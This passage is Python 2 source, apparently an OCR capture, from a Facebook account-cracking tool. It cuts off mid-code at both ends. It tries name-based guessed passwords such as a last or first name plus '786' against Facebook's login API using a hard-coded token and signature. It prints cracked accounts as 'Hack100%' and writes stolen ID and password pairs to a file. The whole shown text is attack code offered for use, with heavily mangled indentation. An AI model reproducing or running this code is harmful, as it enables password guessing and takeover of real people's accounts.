 				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = b['last_name'] + '786'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user										
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]:
				                                                                                       print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass8 + '\n'
				                                                                                       cek = open("out/super_cp.txt", "a")
				                                                                                       cek.write("ID:" +user+ " Pw:" +pass8+"\n")
				                                                                                       cek.close()
				                                                                                       cekpoint.append(user+pass8)   	
										                                   else:					
										                                       pass9 = b['first_name'] + '786'					
										                                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass9)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")				
										                                       q = json.load(data)				
										                                       if 'access_token' in q:		
		                                                                                                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                               z = json.loads(x.text)
											                                       print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'			
											                                       print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']			
											                                       print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user	
											                                       print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass9 + '\n'			
											                                       oks.append(user+pass9)
                                                                                                                       else:
			                                                                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                                                                   print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']